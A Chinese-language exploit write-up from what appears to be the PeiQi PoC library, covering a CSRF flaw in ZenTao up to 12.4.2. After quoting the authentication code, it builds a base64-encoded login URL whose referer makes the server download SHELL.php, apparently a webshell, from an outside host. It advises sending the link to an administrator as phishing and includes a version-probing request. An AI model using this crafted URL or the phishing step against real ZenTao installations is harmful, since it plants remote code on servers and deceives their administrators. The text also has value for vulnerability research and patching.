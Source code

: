 ```yaml
---
title: 禅道 小于12.4.2 CSRF漏洞 CNVD-2020-68552
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - 禅道CMS
---
```


# 禅道 小于12.4.2 CSRF漏洞

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 影响版本

> [!NOTE]
>
> 禅道 <= 12.4.2版本

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-1.png)

调用接口查询版本信息

```
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-14.png)

## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-12.png)

将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-13.png)